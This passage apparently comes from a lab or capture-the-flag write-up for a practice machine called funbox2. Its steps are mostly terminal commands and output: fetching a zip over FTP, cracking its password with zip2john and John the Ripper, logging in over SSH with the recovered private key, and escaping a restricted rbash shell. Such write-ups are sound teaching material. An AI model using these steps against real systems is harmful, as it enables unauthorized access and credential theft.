 
**Trying tom.zip because it is the only entry you can't write to:**
```
-r--r--r--   1 ftp      ftp          1477 Jul 25 10:44 tom.zip
```

Download tom.zip:
```
ftp> get tom.zip
local: tom.zip remote: tom.zip
200 PORT command successful
150 Opening BINARY mode data connection for tom.zip (1477 bytes)
226 Transfer complete
1477 bytes received in 0.04 secs (39.8768 kB/s)
```

**Getting the hash:**

```
crazyeights@es-base:~$ zip2john tom.zip > tom_hash.txt`
```

**Cracking the hash:**
```
crazyeights@es-base:~$ john --wordlist=lists/rockyou.txt --rules tom_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iubire           (tom.zip/id_rsa)
1g 0:00:00:01 DONE (2020-10-11 16:28) 0.9009g/s 29520p/s 29520c/s 29520C/s 123456..dyesebel
Use the "--show" option to display all of the cracked passwords reliably
Session completed
crazyeights@es-base:~$ 
```

Decompressing the archive gives you `id_rsa` an ssh private key, which may allow us to login to SSH without a password:
```
50333540 -rw------- 1 crazyeights crazyeights 1675 Jul 25 06:42 id_rsa
```
#### Logging in to ssh:

```
crazyeights@es-base:~$ ssh -i id_rsa tom@192.168.56.117
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)


Last login: Sun Oct 11 20:33:26 2020 from 192.168.56.1
tom@funbox2:~$ 
```
We have a restricted shell (rbash), our first step should be to breakout.

#### Escaping rbash:

```
tom@funbox2:~$ cd /var/www/html
-rbash: cd: restricted
tom@funbox2:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
tom@funbox2:~$ bash -i
tom@funbox2:~$ cd /var/www/html
```
### Poking around:
